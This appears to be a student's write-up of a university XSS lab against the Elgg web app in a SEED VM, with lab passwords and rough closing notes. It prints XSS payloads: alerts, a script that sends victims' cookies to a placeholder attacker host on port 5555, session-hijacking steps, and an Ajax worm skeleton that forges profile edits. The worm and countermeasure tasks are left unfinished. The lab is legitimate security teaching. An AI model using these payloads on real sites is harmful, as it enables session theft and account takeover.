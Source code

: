 # CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



## Lab Tasks  

### Task 1: Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./writeup/images/1_1_samy.png)  
**Figure 1:** JavaScript alert window payload to demonstrate XSS.  

![1_2_samy](./writeup/images/1_2_samy.png)  
**Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


### Task 2: Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.



### Task 3: Stealing Cookies from the Victim’s Machine  
In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies, but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to send the cookies to himself/herself. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request. We can do this by having the malicious JavaScript insert an `<img>` tag with its `src` attribute set to the attacker's machine. When the JavaScript inserts the img tag, the browser tries to load the image from the URL in the src field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript given below sends the cookies to the port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. The server can print out whatever it receives. The TCP server program is available from the lab's web site.  
```javascript
<script>
document.write('<img src=http://attacker_IP_address:5555?c='+ escape(document.cookie) + '>');
</script>
```


### Task 4: Session Hijacking using the Stolen Cookies  
After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine. To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox's LiveHTTPHeaders extension can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request. A screen shot of LiveHTTPHeaders is given in Figure Once we have understood what the HTTP request for adding friends look like, we can write a Java program to send out the same HTTP request. The Elgg server cannot distinguish whether the request is sent out by the user’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. To simplify your task, we provide you with a sample Java program that does the following:

1. Open a connection to web server.  
2. Set the necessary HTTP header information.  
3. Send the request to web server.  
4. Get the response from web server.  

**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

**Note 2:** The attack should be launched from a different virtual machine; you should make the relevant changes to the attacker VM's `/etc/hosts` file, so your Elgg server's IP address points to the victim's machine's IP address, instead of the localhost (in our default setting).

### Task 5: Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). First, we will write an XSS worm that does not self-propagate; in the next task, we will make it self-propagating. From the previous task, we have learned how to steal the cookies from the victim and then forge—from the attacker’s machine—HTTP requests using the stolen cookies. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. The objective of the attack is to modify the victim’s profile and add Samy as a friend to the victim. We have already created a user called Samy on the Elgg server (the user name is samy).  

**Guideline 1:** Using Ajax. The malicious JavaScript should be able to send an HTTP request to the Elgg server, asking it to modify the current user’s profile. There are two common types of HTTP requests, one is HTTP GET request, and the other is HTTP POST request. These two types of HTTP requests differ in how they send the contents of the request to the server. In Elgg, the request for modifying profile uses HTTP POST request. We can use the XMLHttpRequest object to send HTTP GET and POST requests to web applications.

To learn how to use XMLHttpRequest, you can study these cited documents [1, 2]. If you are not familiar with JavaScript programming, we suggest that you read [3] to learn some basic JavaScript functions. You will have to use some of these functions.

**Guideline 2:** Code Skeleton. We provide a skeleton of the JavaScript code that you need to write. You need to fill in all the necessary details. When you store the final JavaScript code as a worm in the standalone file, you need to remove all the comments, extra space, new-line characters, `<script>` and `</script>`.

```javascript
<script>
var Ajax=null;
// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content="name=..&description=...&guid="; // You need to fill in the
details.
// Send the HTTP POST request.
Ajax.send(content);
</script>
```



### Task 6: Writing a Self-Propagating XSS Worm  

### Task 7: Countermeasures  















Login as samy

email: samy
password: seedsamy

place xss code in profile

```html
<script>alert('xss');</script>
```


do the cookie thing



login as charlie and watch the http headers for adding someone as a friend.

do that shit in javascript and then embed the code in someone elses profile after it done.
